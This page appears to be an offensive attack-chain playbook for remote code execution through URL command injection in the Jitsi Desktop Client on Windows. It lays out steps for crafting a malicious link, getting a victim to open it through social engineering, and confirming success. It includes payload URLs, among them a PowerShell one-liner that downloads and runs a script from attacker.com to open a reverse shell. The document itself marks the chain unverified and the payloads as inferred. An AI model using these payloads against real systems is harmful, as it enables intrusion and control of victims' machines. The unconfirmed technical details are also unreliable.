

# RCE in Jitsi Desktop Client via Malicious URL Scheme Command Injection on Windows

Multi-stage attack chain demonstrating exploitation of a command injection vulnerability in the Jitsi Desktop Client's browser launching mechanism on Windows, leading to remote code execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (exploitation relies on crafting a malicious URL; optional: browser or email client for delivery)

### Target Environment

- Target OS/Platform: Windows
- Required services/ports: None specific; Jitsi Desktop Client must be installed and running
- Network access requirements: Ability to deliver the malicious URL to the victim (e.g., via email, chat, or website link)

### Initial Access Requirements

- Credential requirements: None; social engineering to get victim to interact with URL in Jitsi
- Network position: External attacker
- Prior access needed: None, but victim must have vulnerable Jitsi version (< commit 8aa7be58522f4264078d54752aae5483bfd854b2)

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/Exploit-Jitsi-URL-Scheme-Command-Injection]]

**Objective**: Craft and deliver a malicious URL that exploits the URL scheme handling in Jitsi Desktop Client to inject commands.

**Instructions**: Identify the vulnerable Jitsi Desktop Client version and craft a payload URL that breaks out of the intended command structure used for browser launching. For example, use a URL scheme like 'http' with injected commands leveraging Windows 'start' command vulnerabilities, such as closing quotes and appending '; command'.

Example payload construction (conceptual; adapt based on exact scheme):

```url
http://example.com"; calc.exe; echo "
```

Deliver this via a link in an email or chat that prompts the victim to open it in Jitsi.

**Expected Output**: Victim interacts with the URL in Jitsi, triggering the client to launch a browser with the injected command.

**Success Indicators**:
- Victim confirms interaction with the URL
- No immediate errors in Jitsi logs

### Step 2: Execution
procedure: [[procedures/Exploit-Jitsi-URL-Scheme-Command-Injection]]

**Objective**: Achieve remote code execution on the victim's Windows machine by executing arbitrary commands via the injected URL.

**Instructions**: Upon interaction, the Jitsi's browser launch process (pre-commit 8aa7be58522f4264078d54752aae5483bfd854b2) fails to sanitize the URL, allowing command injection. The injected command (e.g., 'calc.exe') executes alongside or instead of the browser launch.

Monitor for execution by having the payload download and run a reverse shell or beacon back to attacker-controlled server.

Example extended payload for RCE (inferred for Windows cmd injection):

```url
http://attacker.com/payload.exe"; powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/shell.ps1')"; echo "
```

**Expected Output**: Arbitrary command execution on victim machine, e.g., calculator opens or shell connects back.

**Success Indicators**:
- Command executes (e.g., process spawn observed remotely)
- Reverse shell established

## Attack Chain Summary

### Key Achievements

1. Bypassed URL scheme validation in Jitsi Desktop Client
2. Injected and executed arbitrary OS commands on Windows
3. Achieved full remote code execution without authentication

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Client Execution]] Exploitation for Client Execution
- [[Windows Command Shell]] Windows Command Shell

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---
*Last updated: 2023-10-01T00:00:00Z*
